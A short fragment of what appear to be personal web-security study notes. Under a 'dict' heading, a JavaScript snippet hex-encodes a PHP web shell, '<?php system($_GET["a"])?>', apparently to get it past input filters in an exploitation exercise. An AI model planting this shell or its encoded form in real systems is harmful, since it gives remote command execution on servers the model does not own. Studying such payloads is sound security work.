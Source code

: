 ![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/1689445992524-f1c3229a-1074-4b13-9fab-6b3a0573a1dd.png)

#### dict

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/1689447145441-17d16e46-64e7-47b2-816d-01835b4399c2.png)

>```
>str="<?php system($_GET[\"a\"])?>";
>len=str.length;
>arr=[];
>for(var i=0;i<len;i++){
>	arr.push(str.charCodeAt(i).toString(16));
>}
>console.log("\\x"+arr.join("\\x"));
>```
